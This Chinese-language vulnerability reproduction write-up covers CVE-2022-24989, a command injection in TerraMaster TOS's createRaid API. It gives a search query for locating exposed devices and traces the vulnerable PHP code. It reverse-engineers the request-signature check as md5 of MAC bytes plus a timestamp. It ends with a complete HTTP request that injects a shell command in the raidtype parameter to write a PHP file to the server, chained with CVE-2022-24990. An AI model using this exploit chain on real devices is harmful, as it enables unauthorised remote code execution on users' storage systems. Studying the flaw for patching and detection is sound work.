 # TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.31 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125-20220319162830411.png)

我们查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![img](../../../.vuepress/public/img/1647671945531-f5329a4c-12dd-4957-b438-3001e66f146b.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```php
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![img](../../../.vuepress/public/img/1647672020849-c216e10d-2c24-4476-8bf9-ef0936ea39cb.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![img](../../../.vuepress/public/img/1647672331076-640ed4a8-edbd-458b-a6c8-30e68b70ec64.png)

回到 `mobile.class.php` 文件开头的定义

```php
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![img](../../../.vuepress/public/img/1647676041684-2edf4cd9-527a-4032-b467-181f50477dd7.png)

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```php
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![img](../../../.vuepress/public/img/1647677029047-a3d7d35e-581c-46b3-af90-42299e45ec6f.png)

![img](../../../.vuepress/public/img/1647676739320-049b5cab-1197-4c01-a34e-df83e789fb8f.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![img](../../../.vuepress/public/img/1647676834698-5168b3ee-7126-499e-91c5-80b77d9cf0e2.png)

![img](../../../.vuepress/public/img/1647676935156-1f51cd3b-0c11-4eaa-afcf-18851d93f0d3.png)

跟进方法 `get_mac_addr` 

![img](../../../.vuepress/public/img/1647676961925-d1d9b839-9594-45bf-ab6e-4dac2fd11300.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![img](../../../.vuepress/public/img/1647677368472-e0c3db7d-e2a5-4b09-aa14-981b183931ef.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![img](../../../.vuepress/public/img/1647677479277-7433cd43-6bb0-4451-b9ef-bd27b78a585b.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```php
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```php
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 `CVE-2022-24990` 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![image-20220320004751660](../../../.vuepress/public/img/image-20220320004751660.png)

在发送请求包写入 php恶意文件

```php
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![img](../../../.vuepress/public/img/1647678418656-fda11f34-0721-4123-999d-16492413a06d.png)

访问写入的文件

![img](../../../.vuepress/public/img/1647678464951-45d58af7-9f32-4f0b-9d63-2059eb36682c.png)